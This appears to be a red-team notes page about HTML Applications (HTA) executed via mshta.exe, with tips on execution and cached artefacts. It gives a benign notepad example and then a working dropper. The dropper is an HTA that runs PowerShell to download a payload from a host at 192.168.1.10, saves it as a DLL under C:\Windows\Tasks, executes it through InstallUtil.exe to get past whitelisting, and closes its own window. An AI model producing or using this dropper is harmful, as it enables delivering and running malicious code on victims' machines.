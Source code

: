 # HTA

## HTA

### About

HTA = html Application

{% hint style="warning" %}
32 bits payload if msha is used.
{% endhint %}

### HTA reminders

* use mshta.exe for execution
* Accept additionnal languages \(ie JScript, VBScript\)
* Once executed, HTA are cached on the disk. Artefact are left on %localappdata%\Microsoft\Windows\INetCache\IE
* Can be mixed with clickonce apps :\)

### Basic sample

```csharp
<script language="JScript">
    var run = new ActiveXObject('WSCRIPT.Shell').Run("C:\\Windows\\system32\\notepad.exe");
</script>
```

### Dropper

#### Download base64 dll and execute it using installutils

```csharp
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell (new-object net.webclient).downloadfile('http://192.168.1.10/stcreat.txt','C:\\Windows\\Tasks\\stcreat.dll') ; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /url C:\\Windows\\Tasks\\stcreat.dll");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>


```

